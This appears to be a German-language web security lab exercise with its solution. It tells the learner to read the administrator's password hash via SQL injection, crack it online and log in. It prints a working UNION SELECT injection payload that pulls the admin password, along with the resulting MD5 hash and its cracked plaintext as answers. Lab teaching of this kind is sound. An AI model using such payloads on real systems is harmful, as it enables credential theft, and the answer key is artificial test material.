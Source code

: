 Lesen Sie den Passwort-Hash des Administrators aus und verwenden Sie ein Online-Tool zur Entschlüsselung.
Überprüfen Sie Ihr Ergebnis, indem Sie sich mit den gehackten Login-Daten anmelden.

Tipp: Mit dem Schlüsselwort `LIKE` können Sie nach Mustern in Strings suchen.

Statement:
' AND 1=0 UNION SELECT (SELECT password FROM people WHERE name LIKE '_dmin%'), MD5('pass'), 1, 1;--

>>6) Kopieren Sie den MD5-Hashwert in das Antwortfeld.<<
=== 03f6d7d1d9aae7160c05f71ce485ad31

>>7) Wie lautet das entschlüsselte Passwort?<<
=== welldone!
